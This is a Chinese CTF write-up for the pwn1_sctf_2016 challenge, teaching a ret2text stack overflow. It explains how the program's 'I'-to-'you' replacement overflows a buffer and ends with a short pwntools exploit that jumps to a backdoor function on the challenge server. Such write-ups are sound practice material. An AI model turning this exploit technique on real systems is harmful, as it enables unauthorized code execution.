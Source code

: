 # 知识点

ret2text



# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```python
   [*] '/root/Desktop/pwn1_sctf_2016'
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 分析main函数，发现replace反汇编代码存在问题。观察汇编代码，调用replace函数前会将v4（“you”）、v6（“I”）、v3（v3 = input）作为参数入栈。

   经过测试，程序会将输入的 I 替换为 you ，最后使用strcpy将字符串传递给s造成栈溢出。

   <img src="./asset/ida1.png" alt="ida1" style="zoom: 33%;" />

   <img src="./asset/ida3.png" alt="ida3" style="zoom: 33%;" />

3. 继续寻找，发现程序存在后门函数，直接ret2text即可。

   s到ebp的距离为0x3C，gets只能读取32长度字符，因此使用I可以代替you作为3个字符输入。

   <img src="./asset/ida2.png" alt="ida2" style="zoom: 33%;" />

# Exp

```python
from pwn import *

io = process('./pwn1_sctf_2016')
io = remote('node4.buuoj.cn', '27379')

backdoor = 0x08048F0D

payload = 'I' * 20 + 'dead' + p32(backdoor)
io.sendline(payload)

io.interactive()
```

